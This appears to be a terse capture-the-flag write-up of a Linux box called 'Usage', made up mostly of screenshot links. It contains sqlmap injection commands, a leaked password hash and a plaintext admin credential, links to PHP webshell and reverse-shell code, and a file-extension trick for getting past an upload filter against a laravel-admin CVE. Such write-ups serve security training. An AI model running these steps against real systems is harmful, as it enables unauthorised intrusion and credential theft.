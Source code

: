 
Tags: #Linux #SQLi #ReverseShell #PHP


![[Usage.png|650x500]]


![[2024-06-22_12-28.png]]

TTL=63=Linux

![[2024-06-22_12-34.png]]

![[2024-06-22_16-22.png]]

![[2024-06-22_16-23.png]]


![[2024-06-22_16-26.png]]

```js
sqlmap -r req.txt -p email --level 5 --risk 3 --batch --threads 10 --dbs
```

![[2024-06-22_16-40.png]]

```js
sqlmap -r req.txt -p email --level 5 --risk 3 --batch --threads 10 -D usage_blog --tables
```

![[2024-06-22_17-01.png]]

passwordHash: $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2

![[2024-06-22_17-59.png]]

![[2024-06-22_18-01.png]]

![[2024-06-22_18-12.png]]

### CVE 2023-24249
https://github.com/advisories/GHSA-g857-47pm-3r32
https://github.com/z-song/laravel-admin/issues/5726

TESTEANDO LO QUE APRENDI EN LOS MODULOS
Php Shell
https://github.com/WhiteWinterWolf/wwwolf-php-webshell

![[2024-06-22_18-55.png]]

Pentest Monkey Reverse Shell
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

```js
mv shell.php php.jpg
```

![[2024-06-22_19-25.png]]

![[2024-06-22_19-25_1.png]]


![[2024-06-22_19-44.png]]

![[2024-06-22_19-45.png]]

```
admin:3nc0d3d_pa$$w0rd
```

![[2024-06-22_19-49.png]]


